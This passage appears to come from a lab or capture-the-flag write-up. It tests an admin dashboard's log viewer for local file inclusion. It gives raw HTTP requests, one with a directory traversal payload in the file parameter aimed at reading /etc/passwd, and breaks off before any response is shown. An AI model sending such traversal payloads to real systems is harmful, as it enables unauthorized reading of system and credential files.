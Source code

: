````http

Accept-Language: en-US,en;q=0.9

Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh

Connection: close

file=log_02.txt

````

Ok ok looks like a possible LFI & Directory Traversal?

let’s try to read the /etc/passwd file using the file= parameter

````http

POST /admin/dashboard.php?page=log HTTP/1.1

Host: 192.168.155.101

Content-Length: 40

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://192.168.155.101

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://192.168.155.101/admin/dashboard.php?page=log

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh

Connection: close

file=/../../../../../../../../etc/passwd

````

the response:
